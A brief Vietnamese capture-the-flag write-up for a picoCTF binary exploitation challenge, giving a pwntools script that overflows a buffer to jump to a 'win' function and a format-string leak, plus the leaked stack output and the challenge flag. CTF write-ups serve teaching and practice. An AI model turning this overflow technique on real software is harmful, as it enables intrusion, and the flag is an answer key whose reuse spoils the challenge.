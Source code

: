 # Ý tưởng
ta thấy hàm UnderConstruction() có dùng FMT để leak, và hàm win để cat flag
ở đây ta sẽ nhảy vào hàm win trước và sau đó nhảy vào under để leak dữ liệu trong stack
```python3
from pwn import *
r = remote('saturn.picoctf.net', 51893)
elf = ELF("./vuln")
payload = b"a"*14 + p32(elf.symbols['win']) + p32(elf.symbols['UnderConstruction'])
r.sendlineafter("Give me a string that gets you the flag\n", payload)
r.interactive()
# picoCTF{Cle4N_uP_M3m0rY_8d5089b9}
```
chạy netcat ta nhận được
```
aaaaaaaaaaaaaa\xa0\x9d\x04 \x9e\x04
User information : 0x80c9a04 0x804007d 0x39623938 0x30356438 0x5f597230 0x6d334d5f
Names of user: 0x50755f4e 0x34656c43 0x7b465443
Age of user: 0x6f636970
```
do ở đây ta dùng tool để swap  
![image](https://user-images.githubusercontent.com/111769169/224530440-17144a8b-2564-4c2e-9e7e-8f95dca34c8b.png)

[sưu tầm](https://shakuganz.com/2022/03/30/picoctf-2022-write-up-binary-exploitation/)
